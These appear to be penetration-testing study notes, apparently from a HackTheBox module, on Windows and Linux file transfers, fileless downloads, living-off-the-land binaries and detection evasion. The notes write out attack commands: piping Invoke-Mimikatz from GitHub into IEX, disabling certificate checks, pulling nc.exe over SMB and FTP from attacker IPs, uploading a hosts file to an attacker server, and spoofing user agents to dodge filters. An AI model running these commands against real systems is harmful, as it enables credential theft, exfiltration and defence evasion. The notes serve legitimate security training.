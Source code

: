 Many data ex filtration techniques may be blocked, we need to find ways to bypass these.
## Windows File Transfers
*Fileless* means that the attack doesn't come in an external file and instead uses tools built into windows already.

![[fig1a-astaroth-attack-chain.webp]]

We can use base64 to directly copy over contents of a file if not too big.
Command line has a max character string of 8194 characters so  may not be possible.

#### Powershell Download Methods
|**Method**|**Description**|
|---|---|
|[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)|Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).|
|[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)|Returns the data from a resource without blocking the calling thread.|
|[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)|Downloads data from a resource and returns a Byte array.|
|[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)|Downloads data from a resource and returns a Byte array without blocking the calling thread.|
|[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)|Downloads data from a resource to a local file.|
|[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)|Downloads data from a resource to a local file without blocking the calling thread.|
|[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)|Downloads a String from a resource and returns a String.|
|[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)|Downloads a String from a resource without blocking the calling thread.|
Downloadstring can be piped into iex with 
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

list of power shell download cradles can be found here 
https://gist.github.com/HarmJ0y/bb48307ffa663256e239

May need to bypass SSL with 
```powershell-session
PS C:\htb> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Downloads
Server Message Block that runs on port 445 is common in enterprise networks where windows services are running. 

We can create a smb server with impacket's smbserver
```
impacket-smbserver
```
with this we can mount the server with a username/password
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```

### FTP 
We can create a ftp server with 
```
python3 -m pyftpdlib
```

and transfer files with powershell's 
```powershell-session
S C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```


### Powershell web Uploads
There is no curl command on PS it is only an alias for IEX 
```powershell-session
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\htb> Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### WebDav
We can create our own smbserver with WebDav
## Linux
Wget and curl 

We can do fileless operations with pipes |  

Web uploads with curl and -x POST

Create self signed certs with openssl 
```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```


## Downloading with code
#### Python
```shell-session
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP 
```shell-session
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### RUBY
```shell-session
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### JS
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

## Miscellaneous
Encryption on linux with openssl

HTTPS/HTTP most common allowed through firewalls. python3 upload server POST

## LOTL
Lolbins  are binaries that an attacker can use to preform actions beyond their original purposes. 

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

LOLBAS - Windows
https://lolbas-project.github.io/#
GTFOBINS - Linux 
https://gtfobins.github.io/

## Detection
Command line detection based off whitelists is extremely time consuming but robust.
Filter by legitimate user agent strings.

## Evading Detection
If administrators have blacklisted any user agents Invoke-WebRequest contains a useragent parameter which allows for changing the default user agent to a new one to emulate IE, Chrome, Firefox

```powershell-session
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

```powershell-session
PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

